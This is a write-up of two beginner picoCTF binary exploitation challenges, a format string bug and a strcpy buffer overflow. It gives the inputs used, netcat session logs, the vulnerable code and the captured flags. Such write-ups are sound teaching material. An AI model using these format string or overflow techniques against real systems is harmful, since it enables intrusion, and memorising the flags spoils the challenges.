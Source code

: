 # Binary Exploitation

## format string 0

**Approach: Brute Force**

Initially, I tried to brute force the challenge and was successful. I found the flag quickly and easily and then analyzed the given code afterwards.

The brute-force method allowed me to navigate through the challenge effectively. By testing the inputs given in the program, I successfully retrieved the flag. 
 
For `Patrick`, I started with the burger names from the menu. I noticed that the system accepted the input `Gr%114d_Cheese`, which triggered a format string vulnerability.

For `Sponge Bob`, the second customer, I continued with the same method, testing all the provided burger names, the input `Cla%sic_Che%s%steak` was accepted, which also exhibited format string behavior.
Thus, I received the flag.

**Knowledge Gained:**

Format Strings- Learnt how format strings can be used to manipulate the output. The %s and other format specifiers can be exploited to read from the stack.

```
root@DhruvsPC:~# nc mimas.picoctf.net 52258
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Breakf@st_Burger
Breakf@st_BurgerPatrick is still hungry!
Try to serve him something of larger size!
^Z
[1]+  Stopped                 nc mimas.picoctf.net 52258
root@DhruvsPC:~# nc mimas.picoctf.net 52258
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Pe%to_Portobello
Pe20021560_Portobello
root@DhruvsPC:~# nc mimas.picoctf.net 52258
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: $outhwest_Burger
$outhwest_Burger
root@DhruvsPC:~# nc mimas.picoctf.net 52258
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}

```

**Flag:**

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}
```

**Resources Used:**

https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/


## buffer overflow 0

**Approach: Exploit a simple buffer overflow vulnerability**

We need to overflow a buffer in order to trigger a segmentation fault (SIGSEGV) and get the flag.

**Vulnerability:**

strcpy function:

```
void vuln(char *input){
    char buf2[16];
    strcpy(buf2, input);
}
```

`strcpy` is used here to copy `input` into `buf2`, which has a fixed size of 16 characters. If `input` exceeds 16 characters, it will cause a buffer overflow. `input` ,i.e , `buf1` has a max size of 100 bytes/characters.

Signal Handler for SIGSEGV:

```
void sigsegv_handler(int sig) {
    printf("%s\n", flag);
    fflush(stdout);
    exit(1);
}
```

If a segmentation fault occurs (e.g., due to a buffer overflow), this handler will execute, printing the flag.

**Approach:**

Overflow `buf2` in `vuln` function by passing in more than 16 characters, causing a segmentation fault and thereby triggering the `sigsegv_handler` function, which will print the flag.

It should have worked with 17, 18 or 19 characters since we only needed more than 16 characters to trigger a buffer overflow, but it didn't get triggered. It finally overflowed when I inputted 20 or more characters. Upon researching the cause for this, I found out that this behaviour might be due to some kind of "extra buffer"/padding or memory alignment.

```
root@DhruvsPC:~# nc saturn.picoctf.net 59644
Input: 1234567890123456789
The program will exit now
^Z
[1]+  Stopped                 nc saturn.picoctf.net 59644
root@DhruvsPC:~# nc saturn.picoctf.net 59644
Input: 12345678901234567890
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

**Flag:**

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```
